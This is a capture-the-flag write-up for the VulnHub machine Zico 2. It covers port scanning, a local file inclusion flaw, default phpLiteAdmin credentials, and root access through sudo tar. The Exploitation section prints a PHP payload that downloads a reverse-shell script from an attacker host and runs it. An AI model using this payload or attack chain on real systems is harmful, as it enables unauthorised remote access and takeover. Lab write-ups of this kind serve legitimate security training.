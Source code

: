 # Zico 2
https://www.vulnhub.com/entry/zico2-1,210/

## Recon

### Nmap Scan
<div>
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
|   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
|_  256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Zico's Shop
|_http-server-header: Apache/2.2.22 (Ubuntu)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          41708/udp   status
|   100024  1          43168/tcp   status
|   100024  1          44868/udp6  status
|_  100024  1          59995/tcp6  status
43168/tcp open  status  1 (RPC #100024)
</div>

### Web Recon
Port 80 shows a simple home page for a website, looking through the site manually and I was able to find an LFI vulnerability under the /view.php?page= endpoint, with this I was able to read the /etc/passwd file and enumerate users on the machine.

But with only the LFI I could not do nothing too serious, so I decided to fuzz the site with ffuf.

### Fuzzing

js                      [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 1ms]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 1ms]
img                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 0ms]
tools                   [Status: 200, Size: 8355, Words: 3291, Lines: 186, Duration: 0ms]
index                   [Status: 200, Size: 7970, Words: 2382, Lines: 184, Duration: 1ms]
view                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 1ms]
dbadmin                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 1ms]
vendor                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 1ms]
package                 [Status: 200, Size: 789, Words: 112, Lines: 30, Duration: 1ms]
server-status           [Status: 403, Size: 293, Words: 21, Lines: 11, Duration: 0ms]

Here the most interesting endpoint was the dbadmin one and when visiting it we are presented with the phpLiteAdmin service. I gained access since the credentials in use where the default ones and I had access to the admin dashboard.

## Exploitation
I was able to get access through the phpLiteAdmin interface since it was vulnerable to a PHP Remote Code Execution vulnerability and I used this to get a reverse shell.
I exploited this by creating a empty database called hack, then I put a single row inside with a default value of:
<?php system("wget <ATTACK_IP>:<ATTACK_PORT>/php-reverse-shell.php 
-O /tmp/reverse-shell.php; php /tmp/reverse-shell.php"); ?>
And now using the LFI I can execute the reverse shell by visiting the directory databases are stored in since we can see on the interface where is stored

### Privilege Escalation
In the machine we can see a user named zico, and in his home directory is a wordpress installation directory, and inside database credentials hardcoded in wp-config.php. When trying to access MySQL we are unsuccessfull but using the same password on the SSH server for the user zico we are successfull.
As the user zico when running sudo -l we get back 2 binaries that can be run as root:
/usr/bin/tar and /usr/sbin/zip, going on GTFObins you can find ways for both of these binaries to be used to escalate privileges, I used the tar one and gained root permissions on the machine
